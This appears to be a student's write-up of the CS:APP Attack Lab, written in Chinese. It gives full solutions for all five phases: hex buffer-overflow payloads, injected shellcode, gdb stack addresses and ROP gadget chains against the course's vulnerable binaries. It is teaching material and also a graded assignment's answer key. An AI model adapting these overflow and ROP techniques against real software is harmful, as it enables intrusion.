


## Prepration
实验目的：
1、了解缓冲区溢出（stack discipline）
2、write code away from stack discipline
文件结构：
CSAPP-AttackLab
	AttackLab.md
	target1
		cookie.txt 一个8位16进制数，作为攻击的特殊标志符
		ctarget 代码注入攻击的目标文件
		farm.c 在ROP攻击中作为gadgets产生源
		hex2raw 将16进制数转化为攻击字符
		README.txt
		rtarget ROP攻击的目标文件
实验环境：
Centos8-Linux

# Phase1

objdump -d ./ctarget>>ctarget.s //反汇编

CI: run getbuf return to touch1 adress, touch1 adress : 0x4017c0
getbuf有40个字节的栈空间，所以注入代码应填为:
phase1_ans.txt:
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	c0 17 40 00 00 00 00 00

--------------------------

# Phase2

 

思路关键：在getbuf中给%rdi赋值cookie.txt中的0x59b997fa

```cpp
// in phase2.s
movq $0x59b997fa,%rdi
pushq  $0x4017ec
ret

gcc -c phase2.s -o phase2.o 
objdump -d phase2.o >phase2.txt 

// in phase2.txt

phase2.o：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   9:	68 ec 17 40 00       	pushq  $0x4017ec
   e:	c3                   	retq   
```
因此，结合phase1进行缓存区溢出，即溢出区域地址返回到想要插入的%rsp地址，观察getbuf函数的代码，可知应在mov %rsp,%rdi后加入攻击代码，即<Gets>之前

 

通过gdb调试日志查询得到<Gets>时的$rsp值：

```
gdb ctarget
b getbuf
run -q
disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
=> 0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq   
End of assembler dump.
(gdb) p /x $rsp
$1 = 0x5561dc78
```

因此注入代码答案为：

48 c7 c7 fa 97 b9 59 68
ec 17 40 c3 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00

# Phase3

 

man ascii,

cookie: 59b997fa

str -> Hex: 

35 39 62 39 39 37 66 61

<get> -> $rsp: 0x5561dc78, 我们将字符串放在这里，保证getbuf里面的函数不覆盖字符串

disas touch3 -> touch3跳转地址为：0x4018fa

````
vim phase3.txt：

```
movq $0x59b997fa,%rdi

pushq  $0x4017ec

ret
```

gcc -c phase3.s -o phase3.o 
objdump -d phase3.o >phase3.txt 

phase3.o:     file format elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
````

因此注入代码答案为：

48 c7 c7 a8 dc 61 55 00 //0x5561dc78, 注入代码，将字符串赋值给$rdi
fa 18 40 00 c3 00 00 00 // pushq $0x4018fa, 赋值%rsp，跳转touch3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 //0x5561dc78, 跳转到<Get>前
35 39 62 39 39 37 66 61 //0x5561dca8, 存储的字符串hex码

# Phase4

 




Gadgets:

```
0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq   

000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   

00000000004019d0 <mid_farm>:
  4019d0:	b8 01 00 00 00       	mov    $0x1,%eax
  4019d5:	c3                   	retq   

00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   

00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq   

00000000004019e1 <setval_296>:
  4019e1:	c7 07 99 d1 90 90    	movl   $0x9090d199,(%rdi)
  4019e7:	c3                   	retq   

00000000004019e8 <addval_113>:
  4019e8:	8d 87 89 ce 78 c9    	lea    -0x36873177(%rdi),%eax
  4019ee:	c3                   	retq   

00000000004019ef <addval_490>:
  4019ef:	8d 87 8d d1 20 db    	lea    -0x24df2e73(%rdi),%eax
  4019f5:	c3                   	retq   

00000000004019f6 <getval_226>:
  4019f6:	b8 89 d1 48 c0       	mov    $0xc048d189,%eax
  4019fb:	c3                   	retq   

00000000004019fc <setval_384>:
  4019fc:	c7 07 81 d1 84 c0    	movl   $0xc084d181,(%rdi)
  401a02:	c3                   	retq   

0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq   

0000000000401a0a <setval_276>:
  401a0a:	c7 07 88 c2 08 c9    	movl   $0xc908c288,(%rdi)
  401a10:	c3                   	retq   

0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq   

0000000000401a18 <getval_345>:
  401a18:	b8 48 89 e0 c1       	mov    $0xc1e08948,%eax
  401a1d:	c3                   	retq   

0000000000401a1e <addval_479>:
  401a1e:	8d 87 89 c2 00 c9    	lea    -0x36ff3d77(%rdi),%eax
  401a24:	c3                   	retq   

0000000000401a25 <addval_187>:
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
  401a2b:	c3                   	retq   

0000000000401a2c <setval_248>:
  401a2c:	c7 07 81 ce 08 db    	movl   $0xdb08ce81,(%rdi)
  401a32:	c3                   	retq   

0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq   

0000000000401a39 <addval_110>:
  401a39:	8d 87 c8 89 e0 c3    	lea    -0x3c1f7638(%rdi),%eax
  401a3f:	c3                   	retq   

0000000000401a40 <addval_487>:
  401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax
  401a46:	c3                   	retq   

0000000000401a47 <addval_201>:
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	retq   

0000000000401a4e <getval_272>:
  401a4e:	b8 99 d1 08 d2       	mov    $0xd208d199,%eax
  401a53:	c3                   	retq   

0000000000401a54 <getval_155>:
  401a54:	b8 89 c2 c4 c9       	mov    $0xc9c4c289,%eax
  401a59:	c3                   	retq   

0000000000401a5a <setval_299>:
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	retq   

0000000000401a61 <addval_404>:
  401a61:	8d 87 89 ce 92 c3    	lea    -0x3c6d3177(%rdi),%eax
  401a67:	c3                   	retq   

0000000000401a68 <getval_311>:
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	retq   

0000000000401a6e <setval_167>:
  401a6e:	c7 07 89 d1 91 c3    	movl   $0xc391d189,(%rdi)
  401a74:	c3                   	retq   

0000000000401a75 <setval_328>:
  401a75:	c7 07 81 c2 38 d2    	movl   $0xd238c281,(%rdi)
  401a7b:	c3                   	retq   

0000000000401a7c <setval_450>:
  401a7c:	c7 07 09 ce 08 c9    	movl   $0xc908ce09,(%rdi)
  401a82:	c3                   	retq   

0000000000401a83 <addval_358>:
  401a83:	8d 87 08 89 e0 90    	lea    -0x6f1f76f8(%rdi),%eax
  401a89:	c3                   	retq   

0000000000401a8a <addval_124>:
  401a8a:	8d 87 89 c2 c7 3c    	lea    0x3cc7c289(%rdi),%eax
  401a90:	c3                   	retq   

0000000000401a91 <getval_169>:
  401a91:	b8 88 ce 20 c0       	mov    $0xc020ce88,%eax
  401a96:	c3                   	retq   

0000000000401a97 <setval_181>:
  401a97:	c7 07 48 89 e0 c2    	movl   $0xc2e08948,(%rdi)
  401a9d:	c3                   	retq   

0000000000401a9e <addval_184>:
  401a9e:	8d 87 89 c2 60 d2    	lea    -0x2d9f3d77(%rdi),%eax
  401aa4:	c3                   	retq   

0000000000401aa5 <getval_472>:
  401aa5:	b8 8d ce 20 d2       	mov    $0xd220ce8d,%eax
  401aaa:	c3                   	retq   

0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq   

0000000000401ab2 <end_farm>:
  401ab2:	b8 01 00 00 00       	mov    $0x1,%eax
  401ab7:	c3                   	retq   
  401ab8:	90                   	nop
  401ab9:	90                   	nop
  401aba:	90                   	nop
  401abb:	90                   	nop
  401abc:	90                   	nop
  401abd:	90                   	nop
  401abe:	90                   	nop
  401abf:	90                   	nop
```


```
objdump -d ./rtarget > rtarget.s
```

 -> 0x4019ab

 -> 0x4019a2

Talk is cheap, show me the code:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 //跳转执行0x4019ab: popq %rax; req
fa 97 b9 59 00 00 00 00 // %rsp: cookie
a2 19 40 00 00 00 00 00 //跳转执行0x4019a2: movq %rax,%rdi; req
ec 17 40 00 00 00 00 00 //跳转到touch2
```

# Phase5

  

Talk is cheap, show me the code:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 // jmp to gadgget 0x401a06 -> movq %rsp,%rax; req , now %rsp, 标记为起始地址
a2 19 40 00 00 00 00 00 // jmp to gadgget 0x4019a2 -> movq %rax,%rdi; req
cc 19 40 00 00 00 00 00 // jmp to gadgget 0x4019cc -> popq %rax; req
48 00 00 00 00 00 00 00 // jmp to gadgget 0x48 -> 0x48, (base10) 72: 9 * 8
dd 19 40 00 00 00 00 00 // jmp to gadgget 0x4019dd -> movl %eax,%edx; req
70 1a 40 00 00 00 00 00 // jmp to gadgget 0x401a70 -> movl %edx,%ecx; req
13 1a 40 00 00 00 00 00 // jmp to gadgget 0x401a13 -> movl %ecx,%esi; req
d6 19 40 00 00 00 00 00 // jmp to gadgget 0x4019d6 -> lea (%rdi,%rsi,1),%rax; req // rax = %rdi + 0x48= 起始地址 + 0x48 = 字符串地址
a2 19 40 00 00 00 00 00 // jmp to gadgget 0x4019a2 -> movq %rax,%rdi; req
fa 18 40 00 00 00 00 00 // jmp to gadgget 0x4018fa -> jmp to touch3
35 39 62 39 39 37 66 61 // cookie str: 起始地址 + 0x48
```

